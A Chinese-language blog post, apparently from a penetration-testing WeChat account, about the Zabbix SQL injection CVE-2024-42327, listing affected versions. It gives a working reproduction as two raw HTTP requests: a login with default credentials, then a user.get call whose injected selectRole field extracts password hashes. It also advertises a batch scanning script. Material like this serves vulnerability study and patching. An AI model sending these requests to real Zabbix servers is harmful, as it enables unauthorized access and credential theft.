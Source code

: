 #  zabbix SQL注入漏洞(CVE-2024-42327)   
原创 菜鸟学渗透  菜鸟学渗透   2024-12-06 03:59  
  
# 一、漏洞描述  
  
Zabbix 前端上具有默认用户角色或任何其他授予 API 访问权限的角色的非管理员用户账户均可利用此漏洞。addRelatedObjects 函数中的 CUser 类中存在 SQLi，此函数由 CUser.get 函数调用，每个具有 API 访问权限的用户均可使用该函数。  
# 二、影响范围  
  
6.0.0 <= Zabbix <= 6.0.31  
  
6.4.0 <= Zabbix <= 6.4.16  
  
Zabbix 7.0.0  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hZGcrKavvZnSwSAE9bQVbzODUXGVGTcrRQGlGn6uX1c4kiajkhBbViaGhLNbYuQDdMb9ibYAFY2qkFlqQYWqcztBw/640?wx_fmt=png&from=appmsg "")  
# 三、漏洞复现  
```
POST /api_jsonrpc.php HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json-rpc
Content-Length: 106
Connection: close
Referer: http://IP/
Upgrade-Insecure-Requests: 1
Priority: u=0, i
{"jsonrpc": "2.0", "method": "user.login", "params": {"username": "Admin", "password": "zabbix"}, "id": 1}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hZGcrKavvZnSwSAE9bQVbzODUXGVGTcraXzIVbKz6PvcYmUr3LteHePx8aia58zfA2b8UbFFaewMszENboFgfibg/640?wx_fmt=png&from=appmsg "")  
```
POST /api_jsonrpc.php HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json-rpc
Content-Length: 167
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
{"jsonrpc": "2.0", "method": "user.get", "params": {"selectRole": ["roleid, u.passwd", "roleid"], "userids": "1"}, "auth": "6146ec7544c34e008486df010f1a2b6c", "id": 1}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hZGcrKavvZnSwSAE9bQVbzODUXGVGTcrC6FSfiayZ8iaekzRHgr8fb0wpWLGNriavK3FlWEcAObOnLHdfu08JBShw/640?wx_fmt=png&from=appmsg "")  
  
记得点赞+关注，关注微信公众号  
菜鸟学渗透  
获取最新文章，有任何问题可以后台私信我。  
  
后台回复“python  
-CVE-2024-42327  
”即可获取python批量扫描脚本  
  
有考取NISP一级/二级/三级、CISP-PTE/PTS等证书的可以加我好友私信我（公众号回复“  
加好友  
”）。  
  
  
